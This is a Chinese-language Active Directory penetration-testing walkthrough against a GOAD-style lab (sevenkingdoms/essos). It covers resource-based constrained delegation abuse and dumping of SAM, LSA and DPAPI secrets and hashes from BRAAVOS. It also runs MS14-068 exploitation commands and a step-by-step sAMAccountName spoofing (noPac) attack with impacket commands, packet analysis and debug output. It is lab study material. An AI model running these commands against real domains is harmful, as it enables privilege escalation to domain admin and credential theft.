

之后便依照之前攻击RBCD（资源的约束委派）方式，提升到braavos机器的管理员权限

```bash
impacket-getST -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 192.168.56.12 'ESSOS.LOCAL/fake03$:7>nbN{V(V_,M/rv'
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]  Requesting S4U2self
[*]  Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

```bash
export KRB5CCNAME=Administrator.ccache
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9bb24fb9e9684ce8333026b4e7a67a4c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:492c19fde6db57a251bf44c2b756ec3b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ESSOS\BRAAVOS$:plain_password_hex:edac40d9659b8ff518930713a28b8c320ac028f62422b9cc827e8c168e3724e385101235ccbf681865fa403b7ed147ab9cca05df1af00224002c4bc55c5981287c7ad9d861d32e5ea1e3dc3909792e414a3d80de6580867a5b9d43d8cb06e18a7546a9a20ad16addd7a96be91cb4cd0ec6753f9e9807fe9c4c0209bb7a2d5c4e61113548fe74158e0d81e3f80a1bc9f1e9467c231ae98553d952edf7754a0e0a2671284efee120f0a8ad398566d12bf8ebd77b2b701f2b4f73d8958f0c1736b5bbd3a709d2dbc1c06d0e406d6e17f7e8401de0f1fb53434ecf298bf091217dd9a4d5b13e8cfc5bf67dcbcf759ac8a3b0
ESSOS\BRAAVOS$:aad3b435b51404eeaad3b435b51404ee:8e041276acf964a317f358c9d7fa71fd:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x15a98c9d9a40dbd9f71472cc20e6ed21046177d8
dpapi_userkey:0x1935d54fb2e3d629e6dbf76dbc988c08a31529a2
[*] NL$KM
 0000   26 72 00 BB 64 CB DD D7  34 20 B4 AC 7E 9A 99 05   &r..d...4 ..~...
 0010   75 95 40 EF C7 ED 72 3E  F4 66 93 E7 3D C9 B8 56   u.@...r>.f..=..V
 0020   EC E8 6E 4E 40 13 86 34  A8 F6 E6 36 C6 71 9F 7A   ..nN@..4...6.q.z
 0030   8F 63 A3 23 D9 37 A0 BC  07 C0 0B 06 41 21 5E 64   .c.#.7......A!^d
NL$KM:267200bb64cbddd73420b4ac7e9a9905759540efc7ed723ef46693e73dc9b856ece86e4e40138634a8f6e636c6719f7a8f63a323d937a0bc07c00b0641215e64
[*] _SC_MSSQL$SQLEXPRESS
essos.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

```bash
 sudo crackmapexec smb 192.168.56.23 --local-auth -u "Administrator" -H "492c19fde6db57a251bf44c2b756ec3b" --lsa
```

```bash
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:BRAAVOS) (signing:False) (SMBv1:True)
SMB         192.168.56.23   445    BRAAVOS          [+] BRAAVOS\Administrator:492c19fde6db57a251bf44c2b756ec3b (Pwn3d!)
SMB         192.168.56.23   445    BRAAVOS          [+] Dumping LSA secrets
SMB         192.168.56.23   445    BRAAVOS          ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:aes256-cts-hmac-sha1-96:8e8bb65ebc790bb9fdc708b1f83619a2afed6a7d87c1579058f274d1e1e6f525
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:aes128-cts-hmac-sha1-96:81f102359f39be3303cbd6f3cccd0180
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:des-cbc-md5:f8945bc16b85cea1
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:plain_password_hex:edac40d9659b8ff518930713a28b8c320ac028f62422b9cc827e8c168e3724e385101235ccbf681865fa403b7ed147ab9cca05df1af00224002c4bc55c5981287c7ad9d861d32e5ea1e3dc3909792e414a3d80de6580867a5b9d43d8cb06e18a7546a9a20ad16addd7a96be91cb4cd0ec6753f9e9807fe9c4c0209bb7a2d5c4e61113548fe74158e0d81e3f80a1bc9f1e9467c231ae98553d952edf7754a0e0a2671284efee120f0a8ad398566d12bf8ebd77b2b701f2b4f73d8958f0c1736b5bbd3a709d2dbc1c06d0e406d6e17f7e8401de0f1fb53434ecf298bf091217dd9a4d5b13e8cfc5bf67dcbcf759ac8a3b0
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:aad3b435b51404eeaad3b435b51404ee:8e041276acf964a317f358c9d7fa71fd:::
SMB         192.168.56.23   445    BRAAVOS          dpapi_machinekey:0x15a98c9d9a40dbd9f71472cc20e6ed21046177d8
dpapi_userkey:0x1935d54fb2e3d629e6dbf76dbc988c08a31529a2
SMB         192.168.56.23   445    BRAAVOS          NL$KM:267200bb64cbddd73420b4ac7e9a9905759540efc7ed723ef46693e73dc9b856ece86e4e40138634a8f6e636c6719f7a8f63a323d937a0bc07c00b0641215e64
SMB         192.168.56.23   445    BRAAVOS          essos.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
SMB         192.168.56.23   445    BRAAVOS          [+] Dumped 9 LSA secrets to /root/.cme/logs/BRAAVOS_192.168.56.23_2023-08-07_053439.secrets and /root/.cme/logs/BRAAVOS_192.168.56.23_2023-08-07_053439.cached
```

#### 补充

通过crackmapexec来查看ldaps是否开启签名和通道绑定

```bash
sudo crackmapexec ldap 192.168.56.10-12  -u robb.stark -p "sexywolfy" -d "north.sevenkingdoms.local" -M ldap-checker
```

```bash
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP        192.168.56.12   389    MEEREEN          [+] north.sevenkingdoms.local\robb.stark:sexywolfy
LDAP        192.168.56.10   389    KINGSLANDING     [+] north.sevenkingdoms.local\robb.stark:sexywolfy
LDAP-CHE... 192.168.56.12   389    MEEREEN          LDAP Signing NOT Enforced!
LDAP        192.168.56.11   389    WINTERFELL       [+] north.sevenkingdoms.local\robb.stark:sexywolfy
LDAP-CHE... 192.168.56.10   389    KINGSLANDING     LDAP Signing NOT Enforced!
LDAP-CHE... 192.168.56.11   389    WINTERFELL       LDAP Signing NOT Enforced!
LDAP-CHE... 192.168.56.12   389    MEEREEN          Channel Binding is set to "NEVER" - Time to PWN!
LDAP-CHE... 192.168.56.10   389    KINGSLANDING     Channel Binding is set to "NEVER" - Time to PWN!
LDAP-CHE... 192.168.56.11   389    WINTERFELL       Channel Binding is set to "NEVER" - Time to PWN!
```

目前攻克机器：

- north.sevenkingdoms.local
- castelblack.north.sevenkingdoms.local
- braavos.essos.local

参考链接：

<https://en.hackndo.com/ntlm-relay/>

<https://www.thehacker.recipes/ad/movement/ntlm/relay>

## 七、利用已有域用户权限

### MS14-068

#### MS14-068 简要概述
>
> MS14-068是密钥分发中心 (KDC) 服务中的 Windows，漏洞它允许经过身份验证的用户在其 Kerberos 票证 (TGT) 中插入任意 PAC（代表所有用户权限的结构）
>
> 在Windows域中，它允许特权升级（通常是从普通用户到域/企业管理员）
>
> KDC服务允许使用没有密钥的算法（如MD4、MD5、SHA1或CRC32），这意味着任何用户都可以在不知道任何秘密密钥的情况下伪造一个PAC，并要求KDC将其包含在一个票据中
>
> 受影响的 Windows 域控制器若未安装 KB3011780 等相应安全更新，可能受到该漏洞影响；具体范围应以厂商公告为准。
>
#### MS14-068 漏洞分析

1. （AS-REQ）用户向KDC进行身份验证，请求一个没有PAC的TGT
2. （AS-REP）KDC返回的TGT不携带PAC
3. （PAC TIME）用户创建一个带有任意数据的PAC，并使用没有密钥的算法（这里使用MD5）对其进行"签名"
4. （TGS-REQ）用户发送TGS-REQ中伪造的PAC不是在TGT中，而是在req-boby的authorization_data参数中
5. （TGS-REP）KDC效验TGT和PAC，返回最高权限ST（类似于最高权限的TGT）

#### MS14-068 攻击实践

##### PyKEK

```bash
# with a plaintext password
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' -p 'PASSWORD' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'

# with pass-the-hash
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' --rc4 'NThash' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'
```

```bash
getST.py -k -no-pass -spn 'any_valid_spn' $DOMAIN_FQDN/$USER
```

##### Impacket (goldenPac.py)

```bash
goldenPac.py $DOMAIN_FQDN/$USER:$PASSWORD@$DC_FQDN -dc-ip $DC_IP
```

##### Metasploit Framework

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```

参考链接：

<https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/ms14-068>
<https://github.com/gentilkiwi/kekeo/wiki/ms14068>

### sAMAccountName spoofing

#### CVE-2021-42278 简要概述

> 计算机账户的名称（即sAMAccountName属性）应以$结尾，但之前没有验证过程来确保这一点，结合CVE-2021-42287的滥用，攻击者可以冒充域控制器账户

#### CVE-2021-42287 简要概述

> 当请求服务票证时，需要先提供 TGT。当 KDC 找不到 TGT 中的客户端账户时，会尝试在账户名末尾加上 $ 后再次查找。发生的情况是：如果为 bob 获取了 TGT，并删除了 bob 用户，那么使用该 TGT 向自己请求另一个用户的服务票证 (S4U2self) 将导致 KDC 在 AD 中查找 bob$。如果域控制器帐户 bob$ 存在，那么 bob (用户) 刚刚获取了 bob$ (域控制器帐户) 的服务票证，就像任何其他用户一样。
>
> 具体情况是，如果为bob获取了一个TGT，并且bob用户被删除了，使用该TGT请求将另一个用户的服务票据（S4U2self）时，KDC会在AD中寻找bob$
>
> 如果域控制器账户bob\$存在，那么bob（用户）就获得了bob$（域控制器账户）的服务票据

#### sAMAccountName spoofing 原理分析

##### 攻击要求

能够编辑机器账户的sAMAccountName和servicePrincipalName属性是攻击链的最低要求，最简单的方法是域用户利用MachineAccountQuota域级属性创建一个机器账户，或者你的获取的域用户具备能修改域内机器属性的权限（注：sAMAccountName属性只有默认的域管理员和将机器加入域的用户具备，机器账户无法修改）

1. 利用域用户身份创建一个机器账户
2. 清楚机器账户的SPN
3. 通过ldap修改机器账户的sAMAccountName属性为域控，不要添加"$"

4. （AS-REQ）分析AS-REQ阶段数据包


    - as-req部分：
        - PVNO：表示的是Kerberos协议的版本，这里代表使用Kerberos V5
        - msg-type：消息类型
        - padata：Pre-authentication Data，预身份认证，是 Kerberos V5 协议的扩展点。通过在 AS-REQ 和 AS-REP 消息的 padata 字段中提供一个或多个预认证消息来执行预认证。
        - PA-DATA PA-ENC-TIMESTAMP：使用用户hash加密的时间戳，AS收到消息后使用对应hash解密，时间戳在规定范围即认证通过；域内设置"Do not require Kerberos preauthentication"，DC不会有Pre-authentication，这里可能出现的安全问题是AS-REP Roasting。
        - PA-DATA PA-PAC-REQUEST：Privilege Attribute Certificate，用于验证用户是否有权限访问某服务，这里的include-pac 参数为True，说明申请的TGT是包含PAC的
    - as-boby部分：
        - kdc-options：请求生成票据的标志位
        - cname：进行身份验证的账户名，这里是我们修改后的,为winterfell
        - sname：被请求服务的名字
        - etype：加密类型
5. （AS-REP）分析AS-REP阶段的数据包，此阶段一切正常


    - ticket->enc-part 加密部分
        - cname：进行身份验证的账户名，这里是我们修改后的,为winterfell
        - authorization-data：包含客户端的身份权限信息，也就是包含在PAC当中

    - ticket->enc-part->pac 加密部分
        - Acct Name：对应的值是用户sAMAccountName
        - Group RID：对应组的RID，此处为正常RID（Domain Computers 515）修改此处将会导致提权，例如MS14-068
6. 这时候再改回机器账户的sAMAccountName属性

7. （TGS-REQ）查看TGS-REQ的数据包


    - PADATA->PA-TGS-REQ->ap-req->ticket： 与AS-REP获取的TGT一致
    - PA-TGS-REQ->ap-req->authenticator： 通过Logon Session Key 加密的时间戳，保证会话安全
    - PADATA->PA-FOR-USER：通过 S4U2Self 代表指定用户请求访问自身服务的票据
    - PADATA->PA-FOR-USER->name：表示要模拟的用户，这里为administrator
    - sname: 代表请求服务名称，这里我自身winterfell

8. （TGS-REP）查看TGS-REP的数据包，可以发现PAC重新生成了，因为KDC寻找不到saMAccountName值为winterfell（被删除了），但是能找到winterfell$(DC)，所以重新生成了高身份的PAC


      - 重点看ST中的PAC部分：
          - Acct Name：对应的值为administrator
          - Group RID：对应的组已经变成了513（域用户组）

#### sAMAccountName spoofing 攻击实践

我也是archlinux和exegol的粉丝，我也将尝试linux方式

- 使用cme模块检查域用户创建机器账户配额

```bash
cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```

```bash
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
SMB         winterfell.north.sevenkingdoms.local 445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP        winterfell.north.sevenkingdoms.local 389    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing
MAQ         winterfell.north.sevenkingdoms.local 389    WINTERFELL       [*] Getting the MachineAccountQuota
MAQ         winterfell.north.sevenkingdoms.local 389    WINTERFELL       MachineAccountQuota: 10
```

- 添加新计算机

```bash
addcomputer.py -computer-name 'nopac1$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

- -domain-netbios ： 域 NetBIOS 名称（如果 DC 具有多个域，则为必需）

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Successfully added machine account nopac1$ with password ComputerPassword.
```

- 清除我们新计算机的 SPN

```bash
addspn.py --clear -t 'nopac1$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```

```bash
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] Printing object before clearing
DN: CN=nopac1,CN=Computers,DC=north,DC=sevenkingdoms,DC=local - STATUS: Read - READ TIME: 2023-08-09T03:05:55.055263
    sAMAccountName: nopac1$

[+] SPN Modified successfully
```

- 重命名计算机（计算机 -> DC）

```bash
renameMachine.py -current-name 'nopac1$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Modifying attribute (sAMAccountName) of object (CN=nopac1,CN=Computers,DC=north,DC=sevenkingdoms,DC=local): (nopac1$) -> (winterfell)
[*] New sAMAccountName does not end with '$' (attempting CVE-2021-42278)
[-] Server probably patched against CVE-2021-42278
```

> 在执行renameMachine脚本会有报错<https://github.com/Ridter/nopac1/issues/18>

- 获取 TGT

```bash
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
```

- 恢复计算机名

```bash
renameMachine.py -current-name 'winterfell' -new-name 'pac1$' north.sevenkingdoms.local/jon.snow:iknownothing
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Modifying attribute (sAMAccountName) of object (CN=nopac1,CN=Computers,DC=north,DC=sevenkingdoms,DC=local): (winterfell) -> (pac1$)
[*] Target object modified successfully!
```

- 利用之前获得的TGT票据，通过S4U2self协议向DC请求ST

> S4U2Self: 服务A通过S4U2Self协议，可以从域服务器获取账号B访问应用服务器A的TGS票据，就像账号B主动从域服务器获取一个访问服务A的TGS票据一样。可以理解为通过该协议，可以获取域内任意账号访问服务A的TGS票据，过程中不需要账号B认证到域

```bash
getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[+] Impacket Library Installation Path: /root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: winterfell.ccache
[+] Returning cached credential for KRBTGT/NORTH.SEVENKINGDOMS.LOCAL@NORTH.SEVENKINGDOMS.LOCAL
[+] Using TGT from cache
[+] Username retrieved from CCache: winterfell
[*] Impersonating administrator
[+] AUTHENTICATOR
Authenticator:
 authenticator-vno=5
 crealm=NORTH.SEVENKINGDOMS.LOCAL
 cname=PrincipalName:
  name-type=1
  name-string=SequenceOf:
   winterfell

 cusec=642109
 ctime=20230811003949Z


[+] S4UByteArray
 0000   01 00 00 00 61 64 6D 69  6E 69 73 74 72 61 74 6F   ....administrato
 0010   72 6E 6F 72 74 68 2E 73  65 76 65 6E 6B 69 6E 67   rnorth.sevenking
 0020   64 6F 6D 73 2E 6C 6F 63  61 6C 4B 65 72 62 65 72   doms.localKerber
 0030   6F 73                                              os
[+] CheckSum
 0000   57 69 C0 3D AC 65 80 8F  64 08 2C F3 19 5D 80 5C   Wi.=.e..d.,..].\
[+] PA_FOR_USER_ENC
PA_FOR_USER_ENC:
 userName=PrincipalName:
  name-type=1
  name-string=SequenceOf:
   administrator

 userRealm=north.sevenkingdoms.local
 cksum=Checksum:
  cksumtype=-138
  checksum=0x5769c03dac65808f64082cf3195d805c

 auth-package=Kerberos

[+] Final TGS
TGS_REQ:
 pvno=5
 msg-type=12
 padata=SequenceOf:
  PA_DATA:
   padata-type=1
   padata-value=0x6e82051a30820516a003020105a10302010ea20703050000000000a382047c6182047830820474a003020105a11b1b194e4f5254482e534556454e4b494e47444f4d532e4c4f43414ca22e302ca003020101a12530231b066b72627467741b194e4f5254482e534556454e4b494e47444f4d532e4c4f43414ca382041e3082041aa003020112a103020102a282040c04820408a4711089bac31c641009ad79951b528942e22fe6dd80b73f623d061985c4f8ebacb90171a167362b7a390eabba2455f8a92e36e0aee01a81ec52f2668c025b7ce6cd611d6ac7351d59772547cbb1c02b7da6fb8a168337b0e894cd333a29b73fb3909193f65099b420806d691b5128f3d3978733cf762d2ac7018f96351843e485f00e2bca044a75d855be36fdf836039ba9d9c579c8a7c8475c4398bdf84b3d086103344bfffa51b052ec637857b4be6617b3e266cb321a81bc0407368dba438895d950133cada76277b7509a0376e289838648ea738e133b1bb57bbf0abe084505b066aa94eb3c193d060403afca4b4c732bf4e97f583bfc291c82a720a65745c3b8d9cf8210bc3455b66ffd3d7a7bd1892b440a76d5b833fa7c1d94b844a827bee3e17397aa3eed594c83a3406f6664a9b5fcf81f1efe7d8875cee679e305cdad6b423f3770ce87eae060994c82b1b78747355baf85cd26508445549ea7396d1b9105d79ba642bfdc004ad42ee685b5b577a5bc70b9bbe87e5f7572a29f9a75842663f26821418278928d4baed4010a055b008f209374dc23fbc18e0dbb171a2f30fe8913c3f7ec7b632ff8b0cf5d0c2d3d2db301aef3ed9ab559e67b19c7c63b5b4effc6bc65d3106a5dc7990b2330d1c3b062e73baafc2a44f361ee50282816dbe55e64011013ac456ccbaaa9252c80f2641f7e71202ff79a15c9d91313104a3f683e8ef7e4e3032cdd1451a9b442647d6acb5ed27bc6990dd618df3218da42e58fb82fc80f11bdc1297fefd187450647f5a8bdb4c95b6aae6a5339ef4e65793dc77f86e4f99da28ad4b2a0d6f300d6f376ccb2b6cce597eb729ccaa7b36c906523e23dc455a6e334ca1e38a15e91a6aa2603f19e0166be6af2e7ad112be82c3973e5cfeeafd5a230559b314d4435443cb2253d90b8b86cb3f93274c403f1ca90c0a6b990ecaa9d7f18423ae1f3ea3e0b3effe862e86b5ae85c20d9641bafd87278e09b5a21edbeeeac04887863cef3f20b3faa64659fa44ed302c09684a3f7be229c29fed7104646a7d3c1fccb56ee42de9dfed42769628817326f523c7109548a269b679e4b3608e9958c766a3477bbcadd84151569c4118b4c52ea1f3dba1c0eb624deaff788c9902e810db91befcf6887604b5a833b48b538254a7c7dad69ee16481d17f132fbcf44b0dbe70152d3922e5b3f53ffb50564c0e115bd343c6c776b6089be224ea7e049da49e9113abca706dbd46ac102a81f5632b462f8d64271d6e6034b8e656a4cd4d5132d65e62c7ea2b1b63d22ce08c4afe5324a1832903426fab45f4f98ee4e308a74765b48f638dde5dc3afe5fc9a5b116ecd835e50ef281db9fc21766c0f74dbdf8d2d2fc9e948e4f2d29eaf6a305ff6587ea893fa4d37f69ad2866e70e20b3826458540196d5fba826675a9f4ab914b28dccafbc0edf4aa91f79a48180307ea003020112a277047522911852acf25253c3ae26708420185c3a3bf4b960a48fa7889966569e814fa8b8f9e25508c2fa047c6f2f958a27c30faf1ae11e7bf7e068a07c28627b3080cef6bd3c2013b8677660618595fa2ec4ca24b03d78625b40f0718110c8c3a346dee8f2c7d22838703f196531ace6dd3a1880897368b7
  PA_DATA:
   padata-type=129
   padata-value=0x3063a01a3018a003020101a111300f1b0d61646d696e6973747261746f72a11b1b196e6f7274682e736576656e6b696e67646f6d732e6c6f63616ca21c301aa0040202ff76a11204105769c03dac65808f64082cf3195d805ca30a1b084b65726265726f73

 req-body=KDC_REQ_BODY:
  kdc-options=1082195968
  realm=NORTH.SEVENKINGDOMS.LOCAL
  sname=PrincipalName:
   name-type=0
   name-string=SequenceOf:
    winterfell

  till=20230812003949Z
  nonce=1267852748
  etype=SequenceOf:
   18   23


[*] Requesting S4U2self
[+] Trying to connect to KDC at winterfell.north.sevenkingdoms.local:88
[+] Original sname is not formatted as usual (i.e. CLASS/HOSTNAME), automatically filling the substitution service will fail
[+] Original sname is: winterfell
